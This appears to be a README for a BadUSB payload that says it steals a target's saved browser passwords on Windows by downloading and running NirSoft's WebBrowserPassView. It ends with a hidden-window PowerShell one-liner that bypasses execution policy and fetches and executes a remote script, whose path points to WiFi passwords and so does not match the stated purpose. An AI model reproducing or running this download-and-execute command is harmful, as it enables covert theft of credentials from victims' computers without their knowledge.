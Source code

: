 # Browser Windows Password - BadUSB ✅

A script used to stole target browser Passwords.


**Category**: WLAN, Credentials

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to stole target browser Passwords.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Creates a directory named "temp"
* Downloads a file from the specified URL (NirSoft's WebBrowserPassView utility)
* Runs the WebBrowserPassView.exe program

All
```powershell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/Credentials/WWifiPasswords/W-Wifi-Passwords.ps1').Content"
```

